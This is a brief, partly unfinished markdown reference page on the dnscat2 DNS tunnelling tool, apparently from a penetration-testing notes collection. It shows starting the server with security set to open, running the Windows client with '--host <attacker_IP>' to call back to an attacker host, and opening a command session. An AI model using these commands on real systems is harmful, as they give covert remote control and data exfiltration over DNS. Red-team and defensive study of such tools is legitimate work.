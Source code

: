 # DNSCat

TODO: Provide a usage example with dnscat

## Usage

```
$ sudo ./dnscat2.rb

dnscat2> set security=open
```

```
C:\> dnscat2-win32.exe --host <attacker_IP>
```

## Help Menu

```
dnscat2> session -i 1

command session 1> help
```

---
## References

- [DNScat](https://github.com/iagox86/dnscat2)